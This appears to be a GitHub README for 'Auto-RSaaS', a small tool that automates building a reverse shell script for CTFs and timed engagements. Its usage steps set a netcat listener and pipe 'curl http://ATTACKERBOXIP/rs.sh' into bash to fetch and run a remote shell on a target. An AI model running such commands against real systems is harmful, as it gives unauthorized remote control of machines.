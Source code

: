# Auto-RSaaS
Automated the usage of https://reverse-shell.sh/


 _  .-')    .-')     ('-.       ('-.      .-')    
( \( -O )  ( OO ).  ( OO ).-.  ( OO ).-. ( OO ).  
 ,------. (_)---\_) / . --. /  / . --. /(_)---\_) 
 |   /`. '/    _ |  | \-.  \   | \-.  \ /    _ |  
 |  /  | |\  :` `..-'-'  |  |.-'-'  |  |\  :` `.  
 |  |_.' | '..`''.)\| |_.'  | \| |_.'  | '..`''.) 
 |  .  '.'.-._)   \ |  .-.  |  |  .-.  |.-._)   \ 
 |  |\  \ \       / |  | |  |  |  | |  |\       / 
 `--' '--' `-----'  `--' `--'  `--' `--' `-----'  


=====================================================================================================================================================

Esentially this project automates the usage of the site https://reverse-shell.sh/. Typically during CTFs or even any timed engagements reverse shells are needed. There are two scripts located in the project the first being rs.sh which is just the reverse shell script grabbed from https://reverse-shell.sh/. Then we have gen.sh this is a script I wrote to grab the rs.sh file and edit its components.

Set Up
======================================================================================================================================================

1. Download the git project into your home folder /home/yourname/RSaaS/
2. Edit the contents of gen.sh to copy the rs.sh from your own home folder.
3. Setup a alias in bash to run rsaas something like rsaas= bash /home/harshil/rsaas/gen.sh

Usage
======================================================================================================================================================
1. run rsaas enter your port that you will listen on
2. setup a webserver where the rs.sh file is hosted (updog -p 80)
3. in another window run nc -nvlp 4444 (substitute 4444 which the port you are listening on)
4. use curl http://ATTACKERBOXIP/rs.sh | bash when attempting to use command execution
